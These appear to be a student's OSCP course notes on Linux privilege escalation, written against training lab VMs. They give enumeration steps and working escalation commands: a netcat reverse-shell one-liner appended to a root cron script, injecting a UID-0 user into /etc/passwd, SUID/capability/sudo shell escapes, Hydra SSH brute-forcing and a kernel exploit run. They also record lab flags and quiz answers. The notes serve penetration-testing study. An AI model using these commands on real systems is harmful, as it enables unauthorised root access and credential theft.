



# Module 18: Linux Privilege Escalation

#LinuxPrivesc #PrivilegeEscalation #Module18 #OSCP #Linux #SUID #Capabilities #CronJob #KernelExploit #sudo #LinPEAS #GTFOBins

Related: [[Windows Privilege Escalation]] | [[Password Attacks]] | [[Antivirus Evasion]]

Companion resources: [[Linux Privilege Escalation (Command Appendix)]] | [[Linux Privilege Escalation (Decision Tree)]] | [[Privilege Escalation & Local Exploitation (Breakdowns)]]

---

## 18.1 Enumerating Linux

### 18.1.1 Understanding Files and User Privileges on Linux

The fundamental Unix idea: everything is a file. Files, directories, devices, and network sockets all live in the filesystem and all follow the same permission model.

Every file has three permission categories, each with three rights:

| Category | Who it applies to |
|----------|-------------------|
| Owner (first `rwx`) | the user who owns the file |
| Group (second `rwx`) | members of the file's group |
| Others (third `rwx`) | everyone else |

Each `r`, `w`, `x` means something slightly different depending on whether the resource is a file or a directory:

| Permission | On a file | On a directory |
|------------|-----------|----------------|
| `r` (read) | read file contents | list directory contents |
| `w` (write) | modify file contents | create or delete files inside |
| `x` (execute) | run the file | `cd` into it; access its entries |

A dashed permission (`-`) means that right is not granted. The very first character in `ls -l` output is the type: `-` for a regular file, `d` for directory, `l` for symlink.

Example from the module:
```
-rw-r----- 1 root shadow 1751 May  2 09:31 /etc/shadow
```
Owner `root`: read + write. Group `shadow`: read only. Others: nothing.

> 📸 Screenshot: `ls -l /etc/shadow` output showing root:shadow ownership and rw-r----- permissions



#### Tags: #LinuxPermissions #FilePermissions #Module18

---

### 18.1.2 Manual Enumeration

A lot of Linux privesc is knowing what to look for and where. Run all of this when you first land a shell. Each command below includes what you are actually looking for, not just what it does.

**1. Who am I and what groups am I in?**
```bash
id
```
Shows uid, gid, and supplementary groups. Note anything interesting: `sudo`, `disk`, `lxd`, `docker`, `adm`. Any of those groups can be a privesc path.

**2. Who else is on the machine?**
```bash
cat /etc/passwd
```
Look for users with `/bin/bash` or `/bin/sh` (interactive shell accounts) vs `/usr/sbin/nologin` (service accounts that can not log in). The format is:
```
username : password_field : UID : GID : comment : home_dir : shell
```
Key fields:
- Password field `x` means the real hash is in `/etc/shadow`
- UID 0 = root; regular users start at 1000
- Non-root interactive users are potential lateral movement targets

**3. What machine is this?**
```bash
hostname
cat /etc/issue
cat /etc/os-release
uname -a
```
`uname -a` gives you the kernel version and architecture. Both are critical if you end up hunting for a kernel exploit. Write down the exact kernel string.

> 📸 Screenshot: `uname -a` output showing kernel version and x86_64 arch

**4. What processes are running?**
```bash
ps aux
```
`a` = all processes with or without TTY, `u` = user-readable format, `x` = include processes without a controlling terminal. Look for custom scripts or unusual binaries running as root that are not standard system services.

**5. What are the network interfaces and connections?**
```bash
ip a
routel
ss -anp
```
Two interfaces often means the machine bridges two networks, which is pivoting potential. In `ss -anp`, look for ports listening only on `127.0.0.1`. Those services are not reachable from outside but you can hit them locally, and a privileged local service expands your attack surface.

**6. What are the firewall rules?**
```bash
cat /etc/iptables/rules.v4
```
The `iptables-persistent` package on Debian saves rules here with weak permissions by default. Non-standard rules allowing unusual ports are worth noting for later investigation.

**7. What cron jobs are running?**
```bash
ls -lah /etc/cron*
crontab -l
sudo crontab -l
grep "CRON" /var/log/syslog
```
`/var/log/syslog` CRON lines show the exact command running and from whose context. The pattern you want is `(root) CMD (...)`. When you find a root-owned cron job, immediately check the permissions on the script it calls.

**8. What software is installed?**
```bash
dpkg -l          # Debian / Ubuntu
rpm -qa          # Red Hat / CentOS
```
Confirms what services are actually running (web server, DB, etc.) and version numbers to check against CVEs.

**9. What files and directories can I write to?**
```bash
find / -writable -type d 2>/dev/null
```
`-writable` = current user has write access, `-type d` = directories only, `2>/dev/null` = discard permission errors so you only see actual results. Any writable directory outside your home folder is interesting, especially if it contains scripts executed by a higher-priv user.

**10. What disks and partitions exist?**
```bash
cat /etc/fstab
mount
lsblk
```
Unmounted partitions may contain data. Network shares might have looser permissions than the local filesystem.

**11. What kernel modules are loaded?**
```bash
lsmod
/sbin/modinfo <module_name>
```
Useful if you are hunting for a driver-level exploit. Match module names and versions against CVE databases.

**12. What SUID binaries exist?**
```bash
find / -perm -u=s -type f 2>/dev/null
```
SUID binaries run with the file owner's effective UID (usually root) regardless of who launches them. Anything non-standard here is suspicious. Cross-reference against GTFOBins immediately: https://gtfobins.github.io/

> 📸 Screenshot: SUID binary list output showing unusual or custom binary

> 🔁 **Similar to:** the Windows PrivEsc situational awareness checklist in [[Windows Privilege Escalation#17.1.2 Situational Awareness|17.1.2 Situational Awareness]]. Same idea: build a picture before choosing an attack path.

> 🔗 **GTFOBins:** [gtfobins.github.io](https://gtfobins.github.io/) -- search by binary name, filter by SUID, Sudo, or Capabilities

**Quiz answers (18.1.2):**
- Linux distribution codename on the lab VM: **buster** (`cat /etc/os-release` shows `VERSION_CODENAME=buster`)
- crontab parameter to list current user's cron jobs: **`-l`**
- The acronym for what allows a binary to run with root permissions even when launched by a low-priv user: **SUID** (Set User ID -- the quiz asks for the mechanism/bit name, not the resulting UID type; eUID is the underlying concept but SUID is the accepted answer)

**18.1.2 VM#1 -- COMPLETE**
- Non-standard SUID binary found: `/usr/bin/passwd_flag` (segfaults when run directly)
- Flag extracted via `strings /usr/bin/passwd_flag`: `OS{b6eb1b203002b9d722537f581d42567c}`
- Technique: `find / -perm -u=s -type f 2>/dev/null` to list SUID binaries, then `strings` to extract embedded flag

#### Tags: #ManualEnumeration #id #passwd #hostname #uname #ps #cron #dpkg #SUID #Module18

---

### 18.1.3 Automated Enumeration

Manual enumeration catches the unusual stuff; automated tools do the broad sweep quickly. Use both, manual first.

**unix-privesc-check** (pre-installed on Kali at `/usr/bin/unix-privesc-check`):
```bash
# Transfer to target, then:
./unix-privesc-check standard > output.txt
grep -i "WARNING" output.txt
```
`standard` mode is faster with fewer false positives. `detailed` mode also checks open file handles and parsed paths from scripts but is slow and noisy. The critical finding the module highlights: "WARNING: /etc/passwd is a critical config file. World write is set" -- that is directly exploitable (see 18.3.2).

**LinPEAS** (more comprehensive, actively maintained):
```bash
# Download from: https://github.com/carlospolop/PEASS-ng/releases
# Transfer to target, then:
chmod +x linpeas.sh
./linpeas.sh 2>/dev/null | tee output.txt
```
LinPEAS colour-codes output. Red/yellow = high confidence findings. Start with those.

**LinEnum:**
```bash
# Download from: https://github.com/rebootuser/LinEnum
chmod +x LinEnum.sh && ./LinEnum.sh
```

> 🔍 **Worth remembering generally:** automated tools miss things that require context -- like a cron script that is writable because of a non-obvious group ownership chain. Always run a manual pass first, then use tools to catch anything you missed.

> 🔁 **Similar to:** using winPEAS + PowerUp in [[Windows Privilege Escalation#17.1.5 Automated Enumeration|17.1.5 Automated Enumeration]]. Tools augment, not replace, manual work.

**18.1.3 VM#1 -- COMPLETE**
- Transferred `unix-privesc-check` from Kali via `scp /usr/bin/unix-privesc-check joe@<TARGET>:~/`
- Ran `./unix-privesc-check standard 2>/dev/null | grep -A 2 "WARNING"` -- two world-writable critical files found: `/etc/passwd` and `/etc/sudoers`
- Flag embedded as a comment in `/etc/sudoers`: `OS{3bc7a751241f4e88f5f18f7d2e67fcb2}`
- Bonus find: `joe ALL=(ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get` in sudoers -- foreshadows the 18.4.2 sudo abuse section

#### Tags: #AutomatedEnumeration #LinPEAS #LinEnum #unix-privesc-check #Module18

---

## 18.2 Exposed Confidential Information

### 18.2.1 Inspecting User Trails

Credentials left in plaintext are the quickest win. Check these before anything complex.

**Check environment variables:**
```bash
env
```
Admins sometimes store credentials in env vars for use by scripts that require authentication. Look for anything that looks like a password value.

**Check shell startup files (dotfiles):**
```bash
cat ~/.bashrc
cat ~/.bash_profile
cat ~/.bash_history
cat ~/.zshrc     # if the user runs zsh
```
Dotfiles (prepended with `.`) are hidden from basic `ls` but are readable. `.bashrc` runs every time a new shell is opened. The module example: `export SCRIPT_CREDENTIALS="lab"` sitting in plaintext in `.bashrc`. Check `.bash_history` for commands with passwords as arguments (e.g. `mysql -u root -pPassword123`).

> 📸 Screenshot: `cat .bashrc` output showing `export SCRIPT_CREDENTIALS="lab"` line

**Try the credential directly against root:**
```bash
su - root
```
Always worth trying immediately before doing anything more complex.

**Build a targeted wordlist from a partial credential (crunch):**
```bash
crunch 6 6 -t Lab%%% > wordlist
```
`-t Lab%%%` = pattern where `%` is a digit placeholder. Generates Lab000 through Lab999.

**Brute-force SSH with Hydra:**
```bash
hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V
```
`-l` = single username, `-P` = wordlist, `-t 4` = 4 parallel threads (keep low for SSH to avoid account lockouts), `-V` = verbose output per attempt.

> 📸 Screenshot: Hydra output showing the successful `[22][ssh] host: ... login: eve password: Lab123` line

**Once on another account, check sudo rights:**
```bash
sudo -l
```
`(ALL : ALL) ALL` means full sudo access. From there: `sudo -i` or `sudo su -` for root.

> 🔍 **Worth remembering generally:** a found credential with a recognisable pattern (prefix + variable suffix) is a signal to generate a targeted wordlist rather than throwing a generic rockyou at it. Crunch is ideal for this. The narrower the wordlist, the faster Hydra finishes.

> 🔁 **Similar to:** the PSReadline and credential hunting flow in [[Windows Privilege Escalation#17.1.4 Information Goldmine PowerShell|17.1.4 Information Goldmine PowerShell]]. Windows has transcript files and history; Linux has dotfiles and env vars. Same instinct, different paths.

> 🔗 **RevShells** (if you need a shell payload at any stage): [revshells.com](https://www.revshells.com)

**Quiz answer (18.2.1):**
- Command to list sudoer capabilities for a given user: **`sudo -l`**

> 🚩 Hands-on, VM spin-up required: 18.2.1 VM#2. Connect with provided credentials, hunt through dotfiles and env vars for a credential, use it to access another user's files and retrieve the flag. ⬜ Pending

#### Tags: #Dotfiles #CredentialHunting #hydra #crunch #sudo #Module18

---

### 18.2.2 Inspecting Service Footprints

On Linux (unlike Windows), low-priv users can see the full command-line arguments of any running process, including root-owned ones. Processes sometimes pass credentials as arguments.

**Watch the process list for credentials:**
```bash
watch -n 1 "ps -aux | grep pass"
```
`watch` re-runs a command on a set interval. `-n 1` = every 1 second. The `grep pass` filters for processes with "pass" anywhere in the command string. Leave it running for a couple of minutes.

The module example catches: `sshpass -p 'Lab123' ssh -t eve@127.0.0.1`. A root-owned process, password in cleartext, visible to any local user.

> 📸 Screenshot: `watch` output showing the sshpass process with cleartext password argument

**Sniff loopback traffic with tcpdump (if you have sudo rights for it):**
```bash
sudo tcpdump -i lo -A | grep "pass"
```
`-i lo` = loopback interface (catches traffic between local services), `-A` = print packet content as ASCII. Useful when local daemons communicate over unencrypted protocols.

> 🔍 **Worth remembering generally:** `watch -n 1 "ps -aux | grep pass"` is a passive technique that costs nothing and occasionally hits gold in real environments. Run it early and let it sit in the background.

> 🔁 **Similar to:** Responder capturing Net-NTLMv2 hashes in [[Password Attacks|Module 16]]. Both are passive credential capture. Different protocol, same principle.

> ⚠️ **AppArmor note:** if `sudo tcpdump` is on the allowed list but the module's GTFOBins tcpdump technique throws a "Permission denied" error, check `/var/log/syslog` for `apparmor="DENIED"`. A tcpdump AppArmor profile blocks the exec trick even with sudo access. See 18.4.2 for more on AppArmor.

**Quiz answer (18.2.2):**
- Utility used to constantly inspect ps output: **`watch`**

> 🚩 Hands-on, VM spin-up required: 18.2.2 VM#1. Connect as joe, use `watch -n 1 "ps -aux | grep pass"` to capture a cleartext credential from a root-owned process, use it to escalate and retrieve the flag. ⬜ Pending

#### Tags: #ProcessHunting #watch #tcpdump #CredentialSniffing #Module18

---

## 18.3 Insecure File Permissions

### 18.3.1 Abusing Cron Jobs

Same pattern as Windows scheduled tasks: find a script that runs as root but is writable by you, overwrite it with a reverse shell.

**Find root-owned cron jobs via syslog:**
```bash
grep "CRON" /var/log/syslog
```
Look for `(root) CMD (...)` entries. Note the full path of the script and how frequently it runs. Timestamps will show you the interval.

**Check the script's permissions:**
```bash
ls -lah /path/to/script.sh
cat /path/to/script.sh
```
The dangerous permission string is `-rwxrwxrw-` or anything where group or others has write access. If you can write it, you own it.

> 📸 Screenshot: `ls -lah` on the cron script showing world-writable permissions (-rwxrwxrw-)

**Inject a reverse shell one-liner:**
```bash
cd /path/to/scripts/
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <KALI_IP> 1234 >/tmp/f" >> user_backups.sh
```
The first `echo >>` adds a blank line so the original script content still runs without errors before reaching your payload. The `mkfifo` one-liner creates a named pipe that connects stdin to an `nc` reverse connection.

**Start the listener on Kali:**
```bash
nc -lnvp 1234
```

**Wait up to one interval (often 1 minute) for the connection, then verify:**
```bash
id
whoami
```

> 📸 Screenshot: nc listener receiving root shell, `id` confirming uid=0(root)

> 🔁 **Similar to:** scheduled task binary replacement in [[Windows Privilege Escalation#17.3.1 Scheduled Tasks|17.3.1 Scheduled Tasks]]. On Windows you replace a binary; on Linux you modify the script directly if it is writable. Same core principle.

> 🔍 **Worth remembering generally:** the `/var/log/syslog` CRON entries tell you the exact script path and timing, more reliably than reading `/etc/cron*` directories which might not reflect all active jobs.

> 🔗 **RevShells** for alternative one-liners: [revshells.com](https://www.revshells.com)

**Quiz answer (18.3.1):**
- Log file holding cron job activity: **/var/log/syslog**

> 🚩 Hands-on, VM spin-up required: 18.3.1 VM#1. Connect as joe, confirm via syslog that user_backups.sh runs every minute as root, inject reverse shell one-liner, catch root shell on nc listener, read the flag. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.3.1 VM#2. Find a different misconfigured root-owned cron job, exploit it for a root shell, retrieve the flag. ⬜ Pending

#### Tags: #CronJob #ScheduledTasks #ReverseShell #InsecureFilePermissions #Module18

---

### 18.3.2 Abusing Password Authentication

If `/etc/passwd` is world-writable (legacy misconfiguration, or sometimes caused by misconfigured automation), you can inject your own root-level user without needing to touch `/etc/shadow`.

**Why this works:** Linux checks `/etc/passwd` first. If a password hash is present in the second field, it is used for authentication and it takes precedence over the corresponding `/etc/shadow` entry. So you can add a user with a known hash and immediately `su` to them.

**Generate a password hash:**
```bash
openssl passwd w00t
# Example output: Fdzt.eqJQ4s0g
```
By default, `openssl passwd` uses the crypt algorithm (DES-based Unix crypt). On newer systems it may output MD5 format instead, but either works for `/etc/passwd` injection.

**Inject a new superuser line:**
```bash
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
Format: `username:hash:UID:GID:comment:home:shell`. UID=0 and GID=0 together equal root.

**Switch to the new user:**
```bash
su root2
# Password: w00t
id
# uid=0(root) gid=0(root) groups=0(root)
```

> 📸 Screenshot: the injected root2 line in /etc/passwd, then `su root2` confirming uid=0

> 🔍 **Worth remembering generally:** world-writable `/etc/passwd` is ancient but still turns up in environments where automation scripts set broad permissions for convenience. The unix-privesc-check tool flags it explicitly -- it is not subtle.

> 🔁 **Similar to:** password hash concepts in [[Password Attacks|Module 16]]. You are not cracking anything here; you are injecting a hash you already know the plaintext for.

**Quiz answer (18.3.2):**
- Hashing algorithm used by default with `openssl passwd`: **crypt** (DES-based Unix crypt algorithm)

> 🚩 Hands-on, VM spin-up required: 18.3.2 VM#1. Confirm /etc/passwd is world-writable, generate a hash with openssl, inject the root2 line, su to root2, retrieve the flag. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.3.2 VM#2. Same technique, different machine, retrieve the flag. ⬜ Pending

#### Tags: #PasswordAuthentication #etcpasswd #openssl #Module18

---

## 18.4 Insecure System Components

### 18.4.1 Abusing Setuid Binaries and Capabilities

**Real UID vs Effective UID: the core concept**

Normally when you run a binary, it inherits your UID as both the real UID and the effective UID. But when a binary has the SUID (Set-User-ID) bit set, it runs with the file *owner's* effective UID instead. If root owns the binary and it has SUID set, it always runs as root, regardless of who launches it.

You can verify this directly by inspecting `/proc/<PID>/status` while a SUID binary is running:
```bash
grep Uid /proc/<PID>/status
# Uid:    1000    0    0    0
#         real  eff  saved  fs
```
Real UID = 1000 (joe). Effective UID = 0 (root). That is the SUID bit in action.

The SUID flag shows as `s` instead of `x` in the owner's execute position:
```
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
```
Set with `chmod u+s <filename>`.



**Find SUID binaries:**
```bash
find / -perm -u=s -type f 2>/dev/null
```
Compare against the expected list of legitimate SUID binaries for the distro. Anything custom or unusual goes straight to GTFOBins.

**Exploit a non-standard SUID binary (module example: `find`):**
```bash
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```
`-exec` runs a command for each match. `-p` tells bash not to drop the elevated effective UID on startup. The result: a bash session with euid=0 (root), even though joe launched it.

```bash
bash-5.0# id
uid=1000(joe) gid=1000(joe) euid=0(root) groups=...
```

> 📸 Screenshot: SUID find exploit running, bash-5.0# prompt, `id` showing euid=0(root)

> 🔗 **GTFOBins** for SUID exploits: [gtfobins.github.io](https://gtfobins.github.io/) -- filter by "SUID" to find the right command for each binary.

---

**Linux Capabilities**

Capabilities are finer-grained than SUID. Instead of giving a binary full root access, capabilities grant specific privileges, such as raw socket access (`cap_net_raw` for ping), or the ability to change UID (`cap_setuid`). If `cap_setuid` is granted to a scripting language like Perl, that is as powerful as SUID root.

The `+ep` suffix on a capability means it is both **effective** (active now) and **permitted** (can be activated). That combination is dangerous.

**Find binaries with capabilities:**
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
`-r` = recursive from `/`. Look for `cap_setuid+ep`. The module example:
```
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
```

**Exploit cap_setuid on Perl (GTFOBins):**
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
Calls `setuid(0)` to become root, then spawns `/bin/sh`. Since Perl has `cap_setuid`, the setuid call succeeds.

```bash
# id
uid=0(root) gid=1000(joe) groups=...
```

> 📸 Screenshot: `getcap -r / 2>/dev/null` output showing perl with cap_setuid+ep, then root shell

> 🔗 **GTFOBins** for capabilities: [gtfobins.github.io](https://gtfobins.github.io/) -- filter by "Capabilities".

> 🔍 **Worth remembering generally:** capabilities and SUID are different mechanisms but the search pattern is identical: find a binary with elevated rights, look it up on GTFOBins, run the payload. `getcap -r /` for capabilities; `find / -perm -u=s -type f` for SUID.

**Quiz answers (18.4.1):**
- Utility to manually search for misconfigured capabilities: **`getcap`** (full path: `/usr/sbin/getcap`)

> 🚩 Hands-on, VM spin-up required: 18.4.1 VM#1. Enumerate SUID binaries, find a non-standard one, exploit it via GTFOBins (find -exec bash -p or equivalent), get root shell. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.4.1 VM#2. Enumerate capabilities with `getcap -r / 2>/dev/null`, find a binary with cap_setuid+ep, exploit it via GTFOBins, retrieve the flag. ⬜ Pending

#### Tags: #SUID #eUID #Capabilities #getcap #GTFOBins #Module18

---

### 18.4.2 Abusing Sudo

`sudo -l` is one of the first things to run. If you know any user's password (or if NOPASSWD entries exist in sudoers), you can check exactly which commands that user can run as root.

**Check sudo permissions:**
```bash
sudo -l
```
Example output:
```
User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

**Not all sudo entries are immediately exploitable.** Two things can block you:
1. The allowed command might only permit specific flags (like `crontab -l`, which just lists -- you cannot edit).
2. AppArmor or SELinux may block the exploit technique even if sudo grants access to the binary.

**Checking for AppArmor interference:**
```bash
cat /var/log/syslog | grep <binary_name>
# Look for: apparmor="DENIED" operation="exec"
```
If AppArmor is blocking, move to the next allowed binary rather than trying to fight it.

Check AppArmor status (as root if available):
```bash
aa-status
```

**When sudo works -- apt-get example (GTFOBins option a):**
```bash
sudo apt-get changelog apt
# When the 'less' pager opens:
!/bin/sh
```
`apt-get changelog` invokes `less` to display the changelog. `less` lets you run shell commands with `!`. That shell inherits root from the sudo context.

> 📸 Screenshot: `sudo -l` output, then `apt-get changelog apt` dropping into less, then `!/bin/sh` giving root shell with `id` confirming uid=0

> 🔗 **GTFOBins** for sudo: [gtfobins.github.io](https://gtfobins.github.io/) -- filter by "Sudo". Covers apt, vim, nano, find, python, perl, git, man, less, more, and dozens more.

> 🔍 **Worth remembering generally:** always look up every allowed sudo binary on GTFOBins, even ones that seem harmless. `less`, `more`, `man`, `git`, `nano`, `vim` -- all have shell escape techniques.

> 🔁 **Similar to:** UAC token filtering and service start rights in [[Windows Privilege Escalation#17.2.3 Unquoted Service Paths|17.2.3 Unquoted Service Paths]]. Permission boundaries are sometimes tighter than they appear; you have to find where the actual hole is, not just the surface permission.

**Quiz answers (18.4.2):**
- Kernel module enforcing MAC policies: **AppArmor** (Mandatory Access Control; SELinux serves the same role on RHEL/CentOS)

> 🚩 Hands-on, VM spin-up required: 18.4.2 VM#1. Connect as joe, run `sudo -l`, identify the exploitable sudo entry, use GTFOBins to drop a root shell. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.4.2 VM#2. Find and exploit a different sudo misconfiguration to get root. ⬜ Pending

#### Tags: #sudo #AppArmor #GTFOBins #SudoAbuse #Module18

---

### 18.4.3 Exploiting Kernel Vulnerabilities

When nothing else works, or when you spot a very old or unpatched kernel, kernel exploits are an option. They are reliable but carry risk: a mismatch between the exploit and the target can crash the system. Test in a local environment first when possible.

**Step 1: Gather target system info**
```bash
cat /etc/issue
cat /etc/os-release
uname -r          # kernel version e.g. 4.4.0-116-generic
arch              # architecture e.g. x86_64
```
You need all three to narrow the exploit search accurately.

**Step 2: Search for matching exploits on Kali**
```bash
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation" | grep "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
The grep chain filters for version-relevant results. Check the candidates against your exact kernel version and distro.

**Step 3: Inspect the exploit source for compilation instructions**
```bash
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
mv 45010.c cve-2017-16995.c
head cve-2017-16995.c -n 30
```
Look for: which kernel versions are supported, the compilation command, and any special requirements or flags.

**Step 4: Transfer to target and compile there**
```bash
# On Kali:
scp cve-2017-16995.c joe@<TARGET_IP>:

# On target:
gcc cve-2017-16995.c -o cve-2017-16995
file cve-2017-16995     # verify ELF 64-bit
./cve-2017-16995
```
Compiling on the target avoids cross-compilation library mismatches. If gcc is not available on the target, cross-compile on Kali matching the exact target architecture.

```bash
# id
uid=0(root) gid=0(root) groups=0(root),1001(joe)
```

> 📸 Screenshot: kernel exploit output showing "credentials patched, launching shell..." then `id` confirming uid=0

> 🔍 **Worth remembering generally:** kernel exploits that spawn an interactive shell sometimes need a real TTY to work properly. If you are on a netcat shell and the exploit seems to hang, stabilise the shell first with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and set terminal size before running. Alternatively try via SSH.

> 🔁 **Similar to:** the Windows kernel exploit workflow in [[Windows Privilege Escalation#17.3.2 Using Exploits|17.3.2 Using Exploits]]. Same pattern: enumerate system info, match to CVE/exploit, transfer, compile, run. The key lesson there about needing RDP for interactive shell applies here too.

> 🔗 **searchsploit (Exploit-DB):** [exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)

**Quiz answer (18.4.3):**
- Compiler used to build the exploit binary: **gcc**

> 🚩 Hands-on, VM spin-up required: 18.4.3 VM#1. Gather kernel info with `uname -r` and `arch`, run searchsploit to find a matching exploit, transfer and compile on target, run exploit, confirm root shell. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.4.3 VM#2 (Capstone). Get root by abusing a different vulnerability from those covered in the module. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.4.3 VM#3 (Capstone). Use an appropriate privesc technique to get root and read the flag. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.4.3 VM#4 (Capstone). Privesc via file permissions. Take a closer look at what is writable. ⬜ Pending

> 🚩 Hands-on, VM spin-up required: 18.4.3 VM#5 (Capstone). Privesc via binary flags and custom shell. Think SUID or capabilities. ⬜ Pending

#### Tags: #KernelExploit #searchsploit #gcc #CVE #Module18

---

## 18.5 Wrapping Up

The Linux privesc decision tree, from initial shell to root:



**External resources:**
> 🔗 **GTFOBins:** [gtfobins.github.io](https://gtfobins.github.io/) -- SUID, Sudo, Capabilities, shell escapes for every common Unix binary. First stop for any non-standard binary.
> 🔗 **g0tmi1k Linux PrivEsc compendium:** [blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) -- the classic reference, still accurate and thorough.
